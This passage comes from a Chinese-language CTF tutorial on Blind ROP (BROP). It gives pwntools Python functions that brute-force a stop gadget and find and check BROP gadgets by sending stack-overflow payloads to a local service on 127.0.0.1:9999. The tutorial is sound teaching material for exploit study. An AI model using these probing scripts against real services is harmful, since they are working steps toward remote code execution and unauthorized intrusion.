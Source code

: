 #### 寻找 stop gadgets

寻找过程如下

```python
def get_stop_addr(length):
    addr = 0x400000
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            sh.recv()
            sh.close()
            print 'one success addr: 0x%x' % (addr)
            return addr
        except Exception:
            addr += 1
            sh.close()
```

这里我们直接尝试64位程序没有开启PIE的情况，因为一般是这个样子的，，，如果开启了，，那就按照开启了的方法做，，结果发现了不少，，我选择了一个貌似返回到源程序中的地址

```text
one success stop gadget addr: 0x4006b6
```

#### 识别brop gadgets

下面，我们根据上面介绍的原理来得到对应的brop gadgets地址。构造如下，get_brop_gadget是为了得到可能的brop gadget，后面的check_brop_gadget是为了检查。

```python
def get_brop_gadget(length, stop_gadget, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print content
        # stop gadget returns memory
        if not content.startswith('WelCome'):
            return False
        return True
    except Exception:
        sh.close()
        return False


def check_brop_gadget(length, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


```